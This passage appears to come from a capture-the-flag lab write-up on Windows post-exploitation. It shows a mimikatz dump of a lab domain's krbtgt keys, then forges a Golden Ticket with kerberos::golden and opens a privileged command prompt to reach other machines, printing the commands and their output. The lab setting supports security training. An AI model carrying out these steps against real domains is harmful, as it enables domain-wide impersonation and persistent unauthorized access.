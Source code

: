```cmd
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4 
```

#### Create a Golden Ticket

1) `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500`

```cmd
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfd
f /id:500
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 6/28/2021 9:43:47 AM ; 6/26/2031 9:43:47 AM ; 6/26/2031 9:43:47 AM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

2) Open a new command prompt with elevated privileges to all machines with `misc::cmd`:

```cmd
mimikatz # misc::cmd 
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF7609443B8
```

3) Within this new command prompt, access other machines:

![](https://amirr0r.github.io/assets/img/thm/windows/windows-post-exploitation-basics/dir-desktop-1.png)
